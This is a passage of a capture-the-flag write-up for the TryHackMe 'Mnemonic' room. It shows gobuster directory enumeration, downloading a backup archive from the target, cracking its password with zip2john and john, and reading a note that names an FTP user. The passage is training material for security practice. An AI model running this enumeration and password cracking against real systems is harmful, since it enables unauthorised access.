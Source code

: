 The `/webmasters/backups` looks interesting... Let's use `gobuster` to find hidden file!

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Mnemonic]
└─# gobuster dir -u http://$RHOSTS/webmasters/backups/ -w /usr/share/wordlists/dirb/common.txt -t 100 -x php,html,txt,bak,zip,7zip 
[...]
/backups.zip          (Status: 200) [Size: 409]
```

Found `backups.zip` file! Let's `wget` that:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Mnemonic]
└─# wget http://$RHOSTS/webmasters/backups/backups.zip

┌──(root🌸siunam)-[~/ctf/thm/ctf/Mnemonic]
└─# file backups.zip        
backups.zip: Zip archive data, at least v1.0 to extract, compression method=store
```

**Unzip it:**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Mnemonic]
└─# unzip backups.zip 
Archive:  backups.zip
   creating: backups/
[backups.zip] backups/note.txt password: 
   skipping: backups/note.txt        incorrect password
```

Opps. It needs a password. We can crack that via `zip2john` and `john`:

```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Mnemonic]
└─# zip2john backups.zip > backups.hash
                                                                                                                         
┌──(root🌸siunam)-[~/ctf/thm/ctf/Mnemonic]
└─# john --wordlist=/usr/share/wordlists/rockyou.txt backups.hash 
[...]
{Redacted}         (backups.zip/backups/note.txt)
```

Found it!

**Unzip it again!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Mnemonic]
└─# unzip backups.zip
Archive:  backups.zip
[backups.zip] backups/note.txt password: 
  inflating: backups/note.txt        
                                                                                                                         
┌──(root🌸siunam)-[~/ctf/thm/ctf/Mnemonic]
└─# cat backups/note.txt 
@vill

James new ftp username: ftpuser
we have to work hard
```

